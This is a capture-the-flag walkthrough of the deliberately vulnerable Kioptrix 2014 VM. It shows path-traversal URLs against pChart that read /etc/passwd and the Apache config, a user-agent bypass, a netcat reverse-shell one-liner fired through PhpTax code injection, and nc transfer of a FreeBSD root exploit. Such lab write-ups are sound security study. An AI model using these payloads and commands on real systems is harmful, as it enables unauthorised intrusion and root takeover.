

# Kioptrix: 2014 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-2014-5,62/ "URL for the virtual machine").

## Information Gathering

Using the `ifconfig` command, we have determined that our attacking machine's IP address is 192.168.56.103. We can then use the command `nmap -sn 192.168.56.0/24` to scan the local subnet to find what the victim's IP address is.

From these found IP addresses, we can narrow down our victim's IP address by seeing that only two addresses are identified as VirtualBox machines, and that knowing the address 192.168.56.100 is used by VirtualBox as its DHCP server, meaning that our victim is at address 192.168.56.104.

## Scanning

Running the command `nmap -A 192.168.56.104` will tell us the services running and their versions on all ports on the victim.

As we can see that there is an http service running on port 80 and 8080, we can get more information about it with the `nikto` utility. Running `nikto -h 192.168.56.104` will pull information about the web service on port 80, and we can see that there is a possible vulnerability that we can exploit.

The same vulnerability exists when we try `nikto -h 192.168.56.104 -p 8080`.

## Gaining Access

While the vulnerability mentioned by nikto looks promising, unfortunately, we need to know the operating system version for the [associated exploit](https://www.exploit-db.com/exploits/764/ "Exploit for the associated vulnerability") to work. Since nmap told us the victim is running FreeBSD but not the version, we're out of luck on that front. As an aside, the exploit has some problems with compiling and the necessary instructions to fix them are located [here](https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/ "Instructions for fixing the compilation errors in the exploit")

Instead, we'll navigate to each of the two web services in a web browser to see if we can find anything interesting. The web service on port 8080 gives us a 403 Forbidden error, so this won't be of much use to us at this stage.

The other web service results in a simple message that "It works!"

Hmmm, not much here either. If we view the source for this page, it'll show us that there's a page located at pChart2.1.3/index.php that we can go to.

Going to the indicated web page presents a site that renders charts and graphs for us.

After doing some research on pChart 2.1.3, it appears that there are [multiple exploits](https://www.exploit-db.com/exploits/31173/ "Link to Exploit DB for pChart 2.1.3") for this version, one of which is a path traversal attack. As an example, going to the site http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd will display the contents of the /etc/passwd file.

Armed with the knowledge that [Apache 2.2 on FreeBSD](https://www.freebsd.org/doc/handbook/network-apache.html "Link to the Apache documentation for FreeBSD") keeps the configuration file at /usr/local/etc/apache22/httpd.conf, I used the path traversal attack to display the contents by browsing to http://192.168.56.104/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf.

At the very bottom of the configuration file, there was a section about the web service on port 8080 that we couldn't get to before. It's set up so that the requester's user-agent string has to be Mozilla/4.0 to get access to the page there.

Firing up Burp Suite and sending a request to the web service on port 8080 will result in the 403 Forbidden error we've seen before.

Changing the User-Agent field to Mozilla/4.0 will result in us getting access to the web page.

The HTML code in the response includes an `a href` tag with a link to a phptax directory. Changing the GET request to go to that directory shows us that it hosts an instance of the PhpTax program.

This program has a remote code injection vulnerability in the pfilez parameter as evidenced by the [Exploit Database](https://www.exploit-db.com/exploits/21665/ "An exploit for the PhpTax program"). There's also a [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/http/phptax_exec "Link to the Metasploit module") for this vulnerability too. However, I decided to write up my own exploit in Python partly to have more familiarity with exploit development and also because we need a specific user-agent to get access to the vulnerability.

[This exploit](exploit.py "The code for my PhpTax exploit") will use the remote code execution vulnerability to run the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f`, which will make a named pipe used to create a reverse shell with netcat that will connect back to our attacking machine on port 4444. The code for the reverse shell comes from [this resource](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheat sheet"). If we first run `nc -lvp 4444` in a terminal, we'll set up a listener on port 4444 ready to catch our reverse shell. Then, we run our exploit in a different terminal, and we'll get a shell on the victim's machine.

## Elevating Access

Before we can escalate our privileges on the victim's machine, we need to gather information about the system so that we can find an attack vector. A useful resource for knowing where to look can be found [here](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ "Basic Linux privilege escalation"). Specifically, with the `uname -a` command, I found that the target was running FreeBSD 9.0 as an operating system.

Back on our attacking machine, we can run the command `searchsploit FreeBSD 9` to find exploits for the specific version that we're targeting.

It looks like there's a few exploits for this version, but I'm going to use [26368](https://www.exploit-db.com/raw/26368/ "Local privilege escalation for FreeBSD 9.0"), which takes advantage of a vulnerability in the mmap implementation to gain root access. However, we must first get the exploit onto the victim's machine, and because the victim doesn't have `curl` or `wget`, we'll use `nc` to do so. We'll first copy the exploit into our attacker's home directory with `searchsploit -m 26368`. Then, on our attacker's machine we'll run `nc -lvp 1234 < 26368.c`, which will set up a listener on port 1234 that will send the contents of 26368.c to whoever connects. Back on our victim, we'll run `nc 192.168.56.103 1234 > exploit.c`, which will connect to our attacker, grab the contents of the file, and store it locally as exploit.c.

Now, we compile the exploit on the victim machine with `gcc -o exploit exploit.c`, run with `./exploit`, and we are now root!

We can then read the flag with `cat /root/congrats.txt`, and we have beaten this challenge!

